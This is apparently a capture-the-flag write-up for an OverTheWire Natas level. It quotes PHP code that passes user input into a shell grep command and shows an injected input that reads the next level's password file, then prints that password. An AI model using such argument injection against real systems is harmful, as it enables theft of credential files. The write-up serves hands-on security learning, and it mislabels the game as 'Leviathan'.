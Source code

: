 # Level 10

Leviathan OverTheWire Level 10: [level 10](https://overthewire.org/wargames/natas/)

## Level 10 info
Find words containing: 


## Answer
We first look at the sourcecode to understand how this programs finds words
[here](http://natas9.natas.labs.overthewire.org/index-source.html)

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

It seems like whatever we put in the input seems to be grepping. What if we give it an empty string and then search through a different file maybe /etc/natas_webpass/natas10

If we input:
```html
'' /etc/natas_webpass/natas10 #
```

We add the pound to ingore the dictionary.txt file 

Our Output is then this: 
```html
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```
natas 10 password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Level 10 Website
[natas10](http://natas10.natas.labs.overthewire.org)